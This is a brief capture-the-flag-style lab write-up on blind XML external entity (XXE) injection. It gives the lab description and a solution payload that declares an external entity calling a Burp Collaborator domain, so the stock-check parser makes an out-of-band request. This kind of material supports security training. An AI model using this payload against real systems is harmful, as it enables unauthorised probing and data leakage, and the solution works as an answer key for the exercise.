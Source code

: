 # Blind XXE with out-of-band interaction
PRACTITIONER

This lab has a "Check stock" feature that parses XML input but does not display the result.

You can detect the blind XXE vulnerability by triggering out-of-band interactions with an external domain.

To solve the lab, use an external entity to make the XML parser issue a DNS lookup and HTTP request to Burp Collaborator.

## Решение
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE any [<!ENTITY dummy SYSTEM "http://b5hhxsbuc5fdx2cfvs4hyur9k0qreh26.oastify.com">]>
<stockCheck>
<productId>1</productId>
<storeId>&dummy;</storeId>
</stockCheck>
```
Задание выполнено.
